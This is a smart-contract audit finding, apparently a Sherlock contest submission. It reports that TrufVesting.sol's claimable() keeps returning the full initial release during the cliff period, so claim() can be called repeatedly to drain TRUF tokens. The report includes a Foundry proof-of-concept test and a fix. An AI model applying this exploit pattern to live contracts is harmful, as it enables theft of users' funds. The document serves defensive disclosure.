 Savory Peanut Falcon

high

# TRUF tokens in `TrufVesting.sol` can be drained

## Summary
All of the TRUF tokens in the `TrufVesting.sol` contract can be drained.

## Vulnerability Detail

In `TrufVesting.sol` the function `claim()` calls `claimable()` to retrieve the amount of TRUF tokens the caller should be able to claim for a specific vesting tuple `(categoryId, vestingId)`. If the call is executed during the cliff period of the specified vesting tuple `(categoryId, vestingId)` then the function `claimable()` always returns a fixed amount at [#L14](https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/TrufVesting.sol#L181):

```solidity
        uint64 startTime = userVesting.startTime + info.initialReleasePeriod;

        if (startTime > block.timestamp) {
            return 0;
        }
        
        //...SNIP...

        startTime += info.cliff;

        if (startTime > block.timestamp) {
            return initialRelease; //<-- ALWAYS RETURNS initialRelease
        }
```

## Impact

The function `claim()` can be called multiple times in a row during the cliff period of a vesting tuple `(categoryId, vestingId)` by an address that has a vesting amount to drain all the TRUF tokens held in the `TrufVesting.sol` contract. This is possible because in this timeframe `claimable()` always returns `initialRelease` which is a percentage of the vesting amount of the caller.

## Code Snippet
https://github.com/sherlock-audit/2023-12-truflation/blob/main/truflation-contracts/src/token/TrufVesting.sol#L181

## POC
Add this function to `TrufVesting.t.sol` to test the described exploit:

```solidity
    function testClaimMultipleCalls() external {
        console.log("Claim available amount");

        _setupVestingPlan();
        _setupExampleUserVestings();

        uint256 categoryId = 2;
        uint256 vestingId = 0;

        (uint256 amount,,, uint64 startTime) = vesting.userVestings(categoryId, vestingId, alice);
        (uint64 _initialReleasePct, uint64 _initialReleasePeriod, uint64 _cliff,,) =
            vesting.vestingInfos(categoryId, vestingId);
        uint64 tgeTime = vesting.tgeTime();

        vm.warp(tgeTime + _initialReleasePeriod + _cliff - 1);
        // vm.warp(block.timestamp + 50 days);

        uint256 claimAmount = vesting.claimable(categoryId, vestingId, alice);
        assertNotEq(vesting.claimable(categoryId, vestingId, alice), 0, "Claimable amount should be non-zero");

        vm.startPrank(alice);

        vm.expectEmit(true, true, true, true, address(vesting));
        emit Claimed(categoryId, vestingId, alice, claimAmount);
        
        console.log("Calling claim multiple times in a row");
        vesting.claim(alice, categoryId, vestingId, claimAmount);
        vesting.claim(alice, categoryId, vestingId, claimAmount);
        vesting.claim(alice, categoryId, vestingId, claimAmount);
        vesting.claim(alice, categoryId, vestingId, claimAmount);
        vesting.claim(alice, categoryId, vestingId, claimAmount);
        vesting.claim(alice, categoryId, vestingId, claimAmount);

        vm.stopPrank();
    }
```

## Tool used

Manual Review

## Recommendation

In the `claimable()` function in `TrufVesting.sol` subtract the already claimed amount when returning the claimable amount during a cliff period:

```solidity
if (startTime > block.timestamp) {
    return initialRelease - userVesting.claimed;
}
```


